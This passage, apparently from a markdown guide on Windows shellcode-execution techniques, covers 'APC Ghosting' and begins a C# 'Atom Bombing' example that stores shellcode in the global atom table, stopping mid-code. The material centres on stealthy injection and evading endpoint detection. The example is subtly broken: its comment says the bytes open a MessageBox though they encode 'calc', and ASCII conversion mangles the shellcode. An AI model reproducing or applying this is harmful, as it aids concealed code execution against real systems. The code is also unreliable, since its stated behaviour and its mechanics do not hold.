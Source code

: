 ### 13. **APC Ghosting**
   - **Description:** A more advanced form of APC injection where the shellcode is injected into a thread's APC queue and then the thread's memory is manipulated to hide the injection.
   - **Use Case:** Used for stealthy code execution.
   - **Example:** Manipulate the APC queue and thread context to hide the shellcode.

### Security Considerations

- **Detection:** Even lesser-known techniques can be detected by sophisticated endpoint detection and response (EDR) systems, especially those that monitor memory operations and API calls.
- **Complexity:** Implementing these techniques often requires a deep understanding of Windows internals, memory management, and kernel-level programming.
- **Legality:** Unauthorized use of these techniques, especially in a production environment, is illegal and unethical. Always ensure you have explicit permission when testing security or performing penetration testing.

These techniques demonstrate the depth and variety of methods available for executing shellcode, each with different trade-offs in terms of stealth, complexity, and detection resistance.


### **Atom Bombing Example**

**Atom Bombing** is a technique where shellcode is stored in the global atom table and then executed through various indirect means. Atom tables are system-wide storage for strings or binary data that can be referenced by identifiers (atoms). Although it doesn’t rely on typical API calls monitored by security tools, Atom Bombing can be challenging to implement and detect.

Here’s a simplified example in C# that demonstrates storing shellcode in an atom and then retrieving it to execute:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Text;

class AtomBombing
{
    [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
    static extern ushort GlobalAddAtom(string lpString);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr GlobalGetAtomName(ushort nAtom, StringBuilder lpBuffer, int nSize);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern ushort GlobalDeleteAtom(ushort nAtom);

    public static void Main()
    {
        // Example shellcode that opens a MessageBox
        byte[] shellcode = new byte[] {
            0x6a, 0x00, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54,
            0x53, 0xb8, 0xc7, 0x93, 0xbf, 0x77, 0xff, 0xd0
        };

        // Convert the shellcode to a string (less than 255 characters)
        string shellcodeString = Encoding.ASCII.GetString(shellcode);

        // Store the shellcode in the global atom table
        ushort atom = GlobalAddAtom(shellcodeString);
        if (atom == 0)
        {
            Console.WriteLine("GlobalAddAtom failed");
            return;
        }

```